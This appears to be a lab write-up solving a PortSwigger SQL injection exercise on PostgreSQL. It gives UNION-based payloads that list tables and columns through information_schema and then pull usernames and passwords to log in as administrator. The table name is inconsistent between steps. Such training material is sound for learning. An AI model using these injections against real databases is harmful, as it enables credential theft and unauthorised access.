 # Lab Description:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/237ec7a5-b018-40d8-b8be-7f007bcd7d1a)

### Solution: 

I find out that the number of columns is 2, with both being string columns.

### Find Users Table
The database in use here is Postgres, which holds the table information in the information_schema.tables-table.The available columns are listed. We are interested in table_name. 

So we can inject a query `  UNION SELECT table_name, table_schema from information_schema.tables-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/511c89c4-d2de-48a9-88ad-47bfc1842841)

### Find Column in the table 

The information_schema.columns view holds information about the columns of each table, specifically the column_name column. The proper string to inject is ` UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_capbdg'-- ` to form this query

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4ee61909-ddb1-4ca4-8c95-4832ea9c095a)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f7977ad5-dcaf-4496-a8b9-592554ef1b31)

### Find Username and Password Columns specifically

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d208cdce-92b6-4136-803e-c2208057bdc4)

Now we have all information to obtain the required usernames and password columns. Inject ` UNION SELECT username_aianai, password_dfxmeh from users_vqyhrj-- ` to form this query: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/58221c55-0198-4411-bc07-a46873d950dd)

After we get the username and password, we have to login into the website with administrator credentials.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/0bd0666f-992c-4ebe-955b-25c4ba10d59d)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e21d6489-b7f6-40af-99c2-65b98f9590fc)
